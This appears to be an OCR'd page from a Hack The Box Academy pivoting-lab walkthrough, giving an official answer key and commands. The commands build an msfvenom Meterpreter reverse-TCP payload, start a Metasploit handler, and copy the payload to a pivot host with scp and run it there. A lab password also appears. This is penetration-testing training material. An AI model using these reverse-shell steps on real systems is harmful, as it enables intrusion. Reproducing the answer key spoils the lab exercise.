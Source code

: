 
## **11. HTB Academy Official Walkthrough**

### **Complete Step-by-Step Lab Solution**

#### **Question 1: Network Discovery**
**"What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)"**

**Official Answer:** `172.16.5.19,172.16.5.129`

##### **Step 1: Create Linux Meterpreter Payload**
```bash
# Generate reverse TCP Meterpreter payload
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8080 -f elf -o reverseShell

# Expected Output:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: reverseShell
```

##### **Step 2: Configure Metasploit Handler**
```bash
# Start msfconsole and configure handler
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8080
run

# Expected Output:
[*] Started reverse TCP handler on 0.0.0.0:8080
```

##### **Step 3: Transfer Payload to Pivot**
```bash
# SCP transfer to Ubuntu pivot
scp reverseShell ubuntu@10.129.104.197:~/

# Enter password: HTB_@cademy_stdnt!
# Expected Output:
reverseShell                              100%  250     2.7KB/s   00:00
```

##### **Step 4: Execute Payload on Pivot**
```bash
# SSH to pivot and execute payload
ssh ubuntu@10.129.104.197

# On pivot host:
ubuntu@WEB01:~$ chmod +x reverseShell 
ubuntu@WEB01:~$ ./reverseShell
```

